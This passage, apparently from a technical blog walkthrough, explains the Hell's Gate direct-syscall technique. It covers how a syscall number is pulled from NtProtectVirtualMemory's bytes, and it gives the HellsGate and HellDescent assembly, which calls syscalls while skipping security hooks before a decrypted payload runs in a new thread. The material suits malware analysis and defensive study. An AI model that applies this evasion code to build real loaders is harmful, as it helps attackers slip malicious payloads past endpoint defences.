 The `4C:8BD1 B8 50000000` bytes correspond to the following offsets:

`4C` is offset 0, `8B` is offset 1 and `D1` is offset 2, `B8` is offset 3, `50` is offset 4, `00` is offset 5 and so on. The `GetVxTableEntry` function, specifies that the `high` and `low` variables have an offset of 5 and 4, respectively.

```c++
BYTE high = *((PBYTE)pFunctionAddress + 5 + cw); // Offset 5 
BYTE low = *((PBYTE)pFunctionAddress + 4 + cw); // Offset 4
```

Checking the value at offset 5 reveals that it is `0x00`, while the offset at 4 is `0x50`. This means that the value of `high` is `0x00` and `low` is `0x50`. Therefore, the SSN is equal to `(0x00 << 8) | 0x50`

The result of the bitwise operation matches the SSN number of `NtProtectVirtualMemory`, which is 50 in hex.

![Alt text](https://rfc6592.github.io/assets/img/ntprotectvirtualmemoryhellsgate.png)


## 0x5 - Calling the Syscall

Now that Hell's Gate has fully initialized the `VX_TABLE_ENTRY` structure of the target syscall, it can now call it. To do this, Hell's Gate uses two 64-bit assembly functions: `HellsGate` and `HellDescent`, shown in the *hellsgate.asm* file.

```
data 
	wSystemCall DWORD 000h  ; this is a global variable used to keep the SSN of a syscall

.code
	HellsGate PROC
		mov wSystemCall, 000h
		mov wSystemCall, ecx  ; updating the 'wSystemCall' variable with input argument ecx
		ret
	HellsGate ENDP

	HellDescent PROC
		mov r10, rcx
		mov eax, wSystemCall ; 'wSystemCall' is the SSN of the syscall to call
		syscall
		ret
	HellDescent ENDP
end
```


To invoke a syscall using the `HellsGate` function, the initial step involves passing the syscall number, which is then stored in the `wSystemCall` global variable for subsequent use. Following this, the `HellDescent` function is utilized to execute the syscall, with the necessary parameters being passed.

In the final segment of the code, a new thread is initiated, executing our decrypted payload within our process.
